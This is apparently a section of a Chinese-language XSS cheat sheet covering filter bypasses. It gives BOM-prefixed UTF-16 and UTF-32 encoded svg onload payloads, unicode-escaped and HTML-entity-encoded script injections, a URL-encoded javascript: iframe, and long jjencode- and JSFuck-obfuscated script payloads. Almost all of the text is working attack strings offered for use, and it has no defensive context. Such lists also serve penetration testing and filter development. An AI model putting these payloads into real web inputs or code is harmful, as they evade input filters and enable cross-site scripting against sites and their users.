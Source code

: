 ##### 使用 BOM 绕过
  	字节顺序标记（页面必须以 BOM 字符开头。） BOM 字符允许您覆盖页面的字符集
	BOM Character for UTF-16 Encoding:
	Big Endian : 0xFE 0xFF
	Little Endian : 0xFF 0xFE
	XSS : %fe%ff%00%3C%00s%00v%00g%00/%00o%00n%00l%00o%00a%00d%00=%00a%00l%00e%00r%00t%00(%00)%00%3E

	BOM Character for UTF-32 Encoding:
	Big Endian : 0x00 0x00 0xFE 0xFF
	Little Endian : 0xFF 0xFE 0x00 0x00
	XSS : %00%00%fe%ff%00%00%00%3C%00%00%00s%00%00%00v%00%00%00g%00%00%00/%00%00%00o%00%00%00n%00%00%00l%00%00%00o%00%00%00a%00%00%00d%00%00%00=%00%00%00a%00%00%00l%00%00%00e%00%00%00r%00%00%00t%00%00%00(%00%00%00)%00%00%00%3E
 ##### 奇怪的编码
  	<script>\u0061\u006C\u0065\u0072\u0074(1)</script>
	<img src="1" onerror="&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;" />
	<iframe src="javascript:%61%6c%65%72%74%28%31%29"></iframe>
	<script>$=~[];$={___:++$,$$$$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$$:({}+"")[$],$$_$:($[$]+"")[$],_$$:++$,$$$_:(!""+"")[$],$__:++$,$_$:++$,$$__:({}+"")[$],$$_:++$,$$$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+($._$=$.$_[$.__$])+($.$$=($.$+"")[$.__$])+((!$)+"")[$._$$]+($.__=$.$_[$.$$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$$=$.$+(!""+"")[$._$$]+$.__+$._+$.$+$.$$;$.$=($.___)[$.$_][$.$_];$.$($.$($.$$+"\""+$.$_$_+(![]+"")[$._$_]+$.$$$_+"\\"+$.__$+$.$$_+$._$_+$.__+"("+$.___+")"+"\"")())();</script>
	<script>(+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+([][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[[+!+[]]+[!+[]+!+[]+!+[]+!+[]]]+[+[]]+([][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[[+!+[]]+[!+[]+!+[]+!+[]+!+[]+!+[]]])()</script>
 ##### jsfuck
  	http://www.jsfuck.com/